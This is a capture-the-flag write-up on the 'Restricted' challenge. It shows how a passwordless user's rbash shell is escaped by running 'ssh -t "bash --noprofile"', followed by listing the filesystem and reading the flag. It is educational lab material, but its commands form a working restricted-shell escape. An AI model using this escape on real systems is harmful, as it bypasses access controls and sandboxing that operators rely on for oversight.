 # Restricted

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319141257.png)

## Find the flag

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted.zip):**
```
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted)-[2023.03.19|14:09:38(HKT)]
└> file misc_restricted.zip    
misc_restricted.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted)-[2023.03.19|14:09:40(HKT)]
└> unzip misc_restricted.zip 
Archive:  misc_restricted.zip
   creating: misc_restricted/
  inflating: misc_restricted/Dockerfile  
  inflating: misc_restricted/build_docker.sh  
   creating: misc_restricted/src/
 extracting: misc_restricted/src/bash_profile  
 extracting: misc_restricted/src/flag.txt  
  inflating: misc_restricted/src/sshd_config  
```

**In `Dockerfile` we see there's a system user called `restricted`:**
```shell
RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
```

And it has no password.

However, **it's shell is using `rbash` or Restricted Bash shell.**

**Now, let's SSH into that user:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted)-[2023.03.19|14:09:54(HKT)]
└> ssh -p 31396 restricted@104.248.169.117      
[...]
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $SHELL
/bin/rbash
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ env
-rbash: env: command not found
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $PATH
/home/restricted/.bin
```

As you can see, it's pretty restricted. However, there're a lot of ways can bypass that shell.

**If you Google "rbash escape", you'll find [this Gist](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319141613.png)

**That being said, we can use the `-t` flag in `ssh` to spawn a `bash` shell:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted)-[2023.03.19|14:11:49(HKT)]
└> ssh -p 31396 restricted@104.248.169.117 -t "bash --noprofile"
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ id
uid=1000(restricted) gid=1000(restricted) groups=1000(restricted)
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $SHELL
/bin/rbash
```

Although the `$SHELL` environment variable said it's `rbash`, we can execute a normal Bash shell commands.

**Let's read the flag!**
```shell
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ cd ../..
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:/$ ls -lah
total 100K
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 .
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 ..
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 bin
drwxr-xr-x   2 root root 4.0K Dec  9 19:15 boot
drwxr-xr-x   5 root root  360 Mar 19 06:09 dev
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 etc
-rwxr-xr-x   1 root root   32 Mar 16 16:15 flag_8dpsy
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 home
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 lib
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 lib64
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 media
-rwxr-xr-x   1 root root  12K Mar 15 21:39 memories.dump
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 mnt
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 opt
dr-xr-xr-x 283 root root    0 Mar 19 06:09 proc
drwx------   2 root root 4.0K Feb 27 00:00 root
drwxr-xr-x   1 root root 4.0K Mar 19 06:12 run
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 sbin
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 srv
dr-xr-xr-x  13 root root    0 Mar 19 06:09 sys
drwxrwxrwt   1 root root 4.0K Mar 16 16:10 tmp
drwxr-xr-x   1 root root 4.0K Feb 27 00:00 usr
drwxr-xr-x   1 root root 4.0K Feb 27 00:00 var
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:/$ cat flag_8dpsy 
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

- **Flag: `HTB{r35tr1ct10n5_4r3_p0w3r1355}`**

## Conclusion

What we've learned:

1. RBash escape